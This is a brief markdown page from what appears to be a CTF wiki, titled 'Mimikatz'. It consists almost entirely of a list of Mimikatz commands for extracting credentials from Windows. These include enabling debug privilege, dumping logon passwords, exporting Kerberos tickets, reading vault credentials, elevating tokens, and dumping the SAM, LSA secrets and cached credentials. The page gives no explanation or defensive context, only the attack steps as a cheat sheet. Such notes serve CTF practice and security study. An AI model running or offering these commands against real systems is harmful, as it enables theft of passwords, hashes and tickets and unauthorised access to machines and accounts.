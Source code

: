 ```yaml
---
layout: article
title: Mimikatz
permalink: /wikis/ctf/mimikatz
aside:
    toc: true
sidebar:
    nav: ctf
---
```


Extracting information from <b>mimikatz</b> 

```
log 
privilege::debug 
sekurlsa::logonpasswords 
sekurlsa::tickets /export 

vault::cred 
vault::list 

token::elevate 
vault::cred 
vault::list 
lsadump::sam 
lsadump::secrets 
lsadump::cache
```